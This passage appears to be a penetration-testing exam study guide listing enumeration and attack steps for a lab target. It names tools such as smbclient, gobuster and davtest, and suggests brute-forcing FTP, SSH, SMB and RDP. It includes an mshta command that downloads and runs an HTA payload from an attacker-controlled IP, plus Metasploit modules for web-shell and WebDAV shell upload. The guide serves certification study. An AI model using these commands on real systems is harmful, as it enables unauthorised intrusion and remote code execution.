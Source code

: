 #### **Step 7: Check for Anonymous Access to FTP/SMB**  
- Enumerate whether the target allows anonymous or guest access to FTP and SMB ports.  
- Use tools like `smbclient` or `enum4linux` to access shares, users, and groups.  

#### **Step 8: HTTP Enumeration**  
- Check for web servers on common ports (e.g., 80, 443) or uncommon ports (e.g., 8000, 8080).  
- Look for `/robots.txt`, `/sitemap.xml`, and hidden directories using tools like `dirb` or `gobuster`.  
- Use `wp-scan` and `nikto` to find plugins, users, and themes.  

#### **Step 9: Exploit WebShells**  
If you find a web shell, use the following Metasploit module:  
```bash
exploit/windows/misc/hta_server
```  
Then execute the payload on the web shell:  
```bash
mshta.exe http://10.0.2.15:8080/bvp3U9De6.hta
```  

#### **Step 10: Enumerate WebDAV**  
If WebDAV is enabled, check for directory listing using `davtest`:  
```bash
davtest -auth bob:password_123321 -url http://192.168.0.51/webdav
```  
If file uploads are supported, generate a shell with `msfvenom` and upload it using the following Metasploit module:  
```bash
exploit/windows/iis/iis_webdav_upload_asp
```  

#### **Step 11: Brute-Force Attacks**  
If you find any users during FTP or SMB enumeration, perform brute-force attacks on every possible protocol:  
1. FTP brute-force  
2. SSH brute-force  
3. SMB brute-force  
4. RDP brute-force  
5. Web login brute-force  

Use the password lists provided in the exam or the wordlists mentioned earlier.  

#### **Step 12: Use Credentials Wisely**  
If you find credentials (e.g., FTP, SMB, or web login), use them to access SMB, SSH, or RDP sessions. For example, I found FTP credentials that allowed me to gain RDP access to the target.  

#### **Step 13: Check Service Versions for Vulnerabilities**  
If you find a service version during enumeration:  
1. Use `searchsploit` to check for vulnerabilities.  
2. Search Metasploit for relevant exploits.  
3. Search Google for publicly available exploits.  
